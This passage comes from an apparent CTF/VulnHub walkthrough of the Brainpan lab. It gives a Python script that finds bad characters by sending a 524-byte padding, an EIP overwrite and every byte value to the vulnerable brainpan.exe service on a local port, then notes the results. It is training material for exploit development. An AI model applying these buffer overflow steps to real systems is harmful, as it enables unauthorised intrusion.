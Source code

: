 ```python
    print(ex)
    sys.exit()
```


#### Badchars after EIP Control

Some characters can cause issues in the development of exploits. I will send at once every hex value of ASCII characters to the brainpan.exe to see if any character cause issues.

- script

```python
import socket,sys

badchars = (
"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff" )

buffer= "A" * 524 + "B" * 4 + badchars

try:
    s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(('127.0.0.1',9999))
    s.recv(1024)
    s.send(buffer.encode('utf-8'))
    s.close()
except Exception as ex:
    print(ex)
    print("[X] Connection error")
    sys.exit()
```

- We are lucky there aren't badchars
- By default  `\x00` is badchar so we excluded from the list
- Check the [VulnHub - School](https://al1enum.github.io/vulnhub/walkthrough/2020/12/16/vulnhub-school.html) for BOF with badchars and how to handle it

![image]( /assets/img/brainpan/Pasted image 20210609235751.png)
